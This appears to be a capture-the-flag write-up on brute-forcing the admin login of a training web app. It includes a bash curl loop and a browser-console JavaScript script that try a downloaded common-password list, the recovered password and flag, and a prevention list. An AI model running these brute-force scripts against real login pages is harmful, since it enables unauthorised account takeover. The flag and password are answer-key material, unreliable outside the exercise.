 # Brute Force Authentication Vulnerability

## Overview
The login form at `/?page=signin` is vulnerable to brute force attacks, allowing attackers to guess admin credentials with no rate limiting.

---

## How It Works

1. **Finding the Target:**  
   In a previous breach, we gained access to the members page, which revealed that "admin" is a valid username.
2. **Attack:**  
   Login requests are sent like this:
   ```
   /?page=signin&username=admin&password=<PASSWORD>&Login=Login
   ```
   A failed login shows "WrongAnswer.gif".

---

## Exploitation Methods

### **Method 1: Bash Script with Password List**

- Download a password list from GitHub:
  ```bash
  wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/10-million-password-list-top-1000.txt -O pwdlist.txt
  ```
- Use this brute force loop:
  ```bash
  for pwd in $(cat pwdlist.txt); do
    resp=$(curl -s "http://<IP_ADDRESS>/?page=signin&username=admin&password=$pwd&Login=Login")
    if [[ "$resp" == *"The flag is :"* ]]; then
      flag=$(echo "$resp" | awk -F 'The flag is :' '{print $2}' | head -n1 | cut -c2-65)
      echo "Success! Username: admin | Password: $pwd | Flag: $flag"
      break
    fi
  done
  ```
- Password `shadow` is found to work.

---

### **Method 2: JavaScript in Google Chrome Console**

1. Open the login page in Chrome.
2. Open Developer Tools (F12), go to the **Console** tab.
3. Paste and run this script (it fetches the same password list from GitHub and tries each password for you):

   ```javascript
   // URL to password list on GitHub
   const passwordListUrl = 'https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/10-million-password-list-top-1000.txt';

   // Format current time
   const getCurrentTime = () => {
     const now = new Date();
     return now.toISOString().split('T')[0] + ' ' + now.toTimeString().split(' ')[0];
   };

   // Try a single password
   async function tryPassword(password) {
     try {
       const timestamp = getCurrentTime();
       console.log(`[${timestamp}] Testing: "${password}"`);
       
       const url = `index.php?page=signin&username=admin&password=${encodeURIComponent(password)}&Login=Login`;
       const response = await fetch(url);
       const html = await response.text();
       
       // Check for login success (no error image)
       if (!html.includes('WrongAnswer.gif')) {
         // Extract flag if present
         const flagMatch = html.match(/The flag is : ([a-f0-9]+)/i);
         const flag = flagMatch ? flagMatch[1] : 'Not found';
         
         console.log(`✅ SUCCESS! Password: "${password}", Flag: ${flag}`);
         
         // Display flag in a box
         console.log(`
   ┌${'─'.repeat(flag.length + 10)}┐
   │  🚩 FLAG: ${flag}  │
   └${'─'.repeat(flag.length + 10)}┘
         `);
         
         return true;
       }
       return false;
     } catch (error) {
       console.log(`⚠️ Error with "${password}": ${error.message}`);
       return false;
     }
   }

   // Fetch passwords from GitHub
   async function fetchPasswords() {
     try {
       console.log(`Fetching passwords from GitHub...`);
       const response = await fetch(passwordListUrl);
       
       if (!response.ok) {
         throw new Error(`Failed to fetch: ${response.status}`);
       }
       
       const text = await response.text();
       const passwords = text.split('\n')
         .map(pwd => pwd.trim())
         .filter(pwd => pwd.length > 0);
       
       console.log(`Fetched ${passwords.length} passwords`);
       return passwords;
     } catch (error) {
       console.log(`Error fetching passwords: ${error.message}`);
       // Fallback to some basic passwords if GitHub fetch fails
       return ['admin', 'password', '123456', 'shadow', 'root'];
     }
   }

   // Test all passwords with small delay
   async function bruteForce() {
     console.log(`Starting brute force attack at ${getCurrentTime()}...`);
     
     // Get passwords from GitHub
     const passwords = await fetchPasswords();
     
     for (const password of passwords) {
       // Add small delay to avoid overwhelming server
       await new Promise(resolve => setTimeout(resolve, 30));
       
       // Stop if successful
       if (await tryPassword(password)) {
         break;
       }
     }
     
     console.log(`Brute force completed at ${getCurrentTime()}`);
   }

   // Start the brute force
   bruteForce();

   // Utility to test individual passwords
   window.testPassword = (password) => tryPassword(password);
   ```

---

## Result

- **Username:** admin  
- **Password:** shadow  
- **Flag:** `b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2`

---

## Prevention

1. **Account Lockout:** Temporarily disable accounts after multiple failures.
2. **Strong Password Policy:** Require complex, non-common passwords.
3. **MFA:** Add Multi-Factor Authentication for all users.
4. **CAPTCHA:** Use CAPTCHA after failed logins.
5. **Rate Limit:** Restrict login attempts per IP.
6. **Monitoring:** Alert on brute force patterns.

---

## Resources

- Password list source:  
  [https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000.txt)